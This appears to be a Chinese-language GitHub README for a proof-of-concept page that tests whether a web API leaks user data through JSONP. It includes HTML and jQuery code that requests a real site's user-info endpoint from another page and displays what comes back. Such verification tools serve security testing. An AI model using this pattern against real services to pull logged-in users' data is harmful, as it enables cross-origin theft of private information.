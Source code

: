# JSONP漏洞快速验证POC
 一个可以快速验证JSONP漏洞的小脚本。

### 使用方法

HTML代码如下：

```html
<html>
    <head>
        <title>JSONP漏洞验证</title>
        <script type="text/javascript" src="https://cdn.jsdelivr.net/npm/jquery@1.12.4/dist/jquery.min.js"></script>
    </head>
    <body>
        <h4>从本页面发起请求所获取的JSON数据如下，如果依然包含敏感信息，则说明该API存在JSONP漏洞：</h4>
        <script>
            $.getJSON("https://www.csdn.net/community/toolbar-api/v1/get-user-info", function(data){
                  var items = [];
                  $.each( data, function( key, val ) {
                    items.push( "<li id='" + key + "'>" + val + "</li>" );
                  });
                 
                  $( "<ul/>", {
                    "class": "my-new-list",
                    html: items.join( "" )
                  }).appendTo( "body" );
            });
        </script>
    </body>
</html>

```

把上述代码保存成一个 html 文件，然后将 getJSON() 函数里的 API 链接换成你自己的链接，并且把function里的data和函数里面的data都替换为json函数名。再用浏览器打开该 html，如果页面上依然能显示敏感数据，则说明存在 JSONP 漏洞。
